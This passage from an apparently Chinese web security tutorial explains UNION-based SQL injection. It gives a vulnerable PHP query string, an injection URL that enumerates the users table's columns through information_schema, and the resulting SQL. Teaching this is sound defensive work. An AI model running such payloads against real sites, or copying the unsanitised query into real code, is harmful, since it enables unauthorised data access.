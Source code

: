 ![image.png](../../_img/02-Web安全/01-基础知识/1664343125357-9a8e499f-2cfb-4cb2-bd00-2d45ead03ad3.png)


## 2.4、查询表里的字段
**2.4.1、Union注入**<br />设有一个URL为：`http://xmtxsec.top/test.php/?id=1`<br />后台SQL语句为：`$sql="select * from users where id='$id' limit 0,1"`

当我们输入：
```
http://xmtxsec.top/test.php/?id=-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'--+
```

真正执行的SQL语句为：
```
select * from users where id='-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'
```

**分析：**`id=-1`为假，紧接着执行后面的SQL语句，使用group_concat函数将所有结果汇总到一起输出，所以页面返回security数据库里的users表里的字段。
![image.png](../../_img/02-Web安全/01-基础知识/1664334192556-44e12435-e530-427a-9673-502e243e2988.png)
